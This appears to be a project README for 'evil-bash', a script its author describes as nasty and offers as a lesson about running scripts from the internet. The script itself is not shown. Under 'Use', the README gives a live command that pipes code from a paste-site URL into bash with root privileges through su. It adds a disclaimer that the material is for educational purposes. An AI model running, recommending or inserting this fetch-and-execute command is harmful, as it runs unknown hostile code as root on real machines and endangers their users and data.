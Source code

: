 # evil-bash
# FOR EDUCATIONAL PURPOSES ONLY
A nasty bash script, used as a lesson on why to never run scripts directly from the internet.

I don't take full credit for this as I was inspired by a user on twitter for this one. 

However, I wanted to see if I could accomplish a similar task but without linking myself to a particular website or service, that had anything higher than basic authentication (username and password). So no sign up pages, no email verification no, personally identifying details being requested. 

I feel that I accomplished this in theory.

### Use:
Simply retrieve the script and run it from the internet directly like below;  
`su -c 'curl http://ix.io/1iVu.sh | bash'`  
*always append .sh to the url so it fetchs the contents as a shell script*

### Caution:
I am not responsible for the use of this script in any way shape or form. This script was designed as research
and **educational purposes only.** *You've been warned.

### License:
http://www.wtfpl.net/txt/copying/

